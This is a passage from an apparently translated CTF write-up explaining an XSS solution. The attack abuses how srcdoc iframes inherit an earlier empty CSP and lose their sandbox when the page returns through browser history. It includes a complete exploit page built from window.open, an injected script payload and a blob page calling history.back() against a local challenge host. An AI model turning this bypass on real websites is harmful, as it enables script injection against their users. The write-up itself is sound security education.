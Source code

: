 Originally, the CSP was empty, but since the sandbox is gone, it has come back.

However, the last and most important point is that, as mentioned earlier: "the CSP of srcdoc will inherit the previous result," so this srcdoc's CSP is unrelated to the current page but inherits from the previous one. What was the previous CSP? It was empty, so the script can execute, successfully achieving XSS.

After removing the opener check from the problem, the exploit becomes much simpler and easier to understand:

``` html
<script>
  const challengeHost = 'http://localhost:1337'

  const xssPayload = `<script>alert(document.domain)<\/script>`
  const payload = `<iframe sandbox="allow-same-origin" src="/memo?memo=${xssPayload}">`
  const win = window.open(`${challengeHost}/memo?memo=` + payload)

  setTimeout(() => {
    const win2 = window.open(`${challengeHost}/memo?memo=<iframe></iframe>`)
    setTimeout(() => {
      win2.close()
      win.location = URL.createObjectURL(new Blob([`
        <script>
          setTimeout(() => {
           history.back();
          }, 500);
        <\/script>
      `], { type: "text/html" }));
    }, 1000)
  }, 1000)
</script>
```

This is the solution to the problem, mainly relying on the fact that when returning to the previous page, the sources of the sandbox and CSP are different, creating a difference that achieves XSS.

## Summary

According to the author, the inspiration for this problem came from this issue: [srcdoc and sandbox interaction with session history #6809](https://github.com/whatwg/html/issues/6809). While writing this, I also read this issue several times and conducted many experiments before finally understanding the intricacies. The key is to try it out yourself after reading; after a few attempts, you will likely understand how it works.

By the way, the author of this issue, Jake Archibald, is the host of [HTTP 203](https://www.youtube.com/playlist?list=PLNYkxOF6rcIAKIQFsNbV0JDws_G_bnNo9). This program should be familiar to front-end engineers, as it discusses many web-related topics. One of the must-read classics for front-end engineers, [Tasks, microtasks, queues and schedules](https://jakearchibald.com/2015/tasks-microtasks-queues-and-schedules/), was also written by him.
